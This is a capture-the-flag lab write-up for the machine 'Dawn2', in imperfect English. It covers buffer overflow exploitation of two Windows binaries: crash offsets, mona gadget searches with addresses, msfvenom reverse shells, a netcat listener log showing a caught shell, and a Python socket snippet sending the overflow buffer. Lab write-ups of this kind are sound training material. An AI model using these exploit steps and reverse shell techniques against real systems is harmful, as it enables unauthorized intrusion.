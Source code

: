 ### Dawn2

1. Enumeration: again we start with `rustscan` and found only 80, 1435, 1985, so run also `nmap` and found that port 80 is web while the other are not recognized. Since 1985 are not recognized, we go again port 80.

2. Web Enumeration: running tools like `webcrawl` and `fuff` didn't found anything, so use `webenum`, we found that there is some zip file named Dawn.zip, download that file and found it contain exe file called dawn.exe.

3. Binary Assessment: copy that binary to my load lvm windows 7 machine and play with it, found that this one if vuln for buffer overflow, so run each step for overflow that program:
**step 1** overflow with data to find the crash point.
**step 2** test the crash point again and trying to overwrite the EIP.
**step 3** trying to make the buffer bigger with offset.
**step 4** check if on crash point there is any registry that point back to the crash point ot to the offset.
**step 5** running the python code against the vm with badchars list.
**step 6** search for command using `msf-nasm_shell` to use for the registry that point back to the code.
**step 7** create reverse shell without badchars using `msfvenom`.
**step 8** getting shell after running the python exploit.
on my case, the ESP point back to the offset that locate after the EIP, the crash point was 272 bytes, so the command I used for redirect to the EIP was `call esp`, search that with mona found `!mona find -s "\xff\xe4" -m "dawn.exe`, the address was `34581777` which also have no protection. Using `msfvenom` for create reverse shell based windows and run the exploit work.

4. Shell Grabbing: Since the reverse shell against my windows work, we can update the code to contain linux type of reverse shell and update the exploit, we have reverse shell as local users:
```
─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.45.247] from (UNKNOWN) [192.168.152.12] 51790
python -c 'import pty; pty.spawn("/bin/bash")'
dawn-daemon@dawn2:/home/dawn-daemon$
```

5. System Enumeration: running basic system enumeration found local binary file dawn-BETA.exe, also found that there is several port open with out any user, which may identify that they run as root:
```
tcp    LISTEN      0       1               0.0.0.0:1435           0.0.0.0:*
```
copy the binary file to our local machine and run `wine dawn-BETA.exe` found that he listen for that port 1435, witch may mean that this is also vuln for BO and we can use it to get root.

6. Binary Assessment: running immunity against that binary too, found the break point locate after 13 bytes only after that location the EIP are locate, so run bigger offset and found that we can overflow with more 500 bytes, also the ESP point directly back to the offset, so search for `call esp` command (using `msf-nasm_shell`) and found one which have no protection `!mona find -s "\xff\xd4" -m "dawn-BETA.exe"`, the address was 52501513 which is `\x13\x15\x50\x52`, so update my code on the next way to it contain the EIP after the crash and have slide to my shell code (`msfvenom` for windows).
```python
...
mybuffer = crash + eip + slide + shellcode2 + null
session = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
session.connect((host,port))
session.send(mybuffer)
...
```
That work, and I have reverse shell from my windows machine.
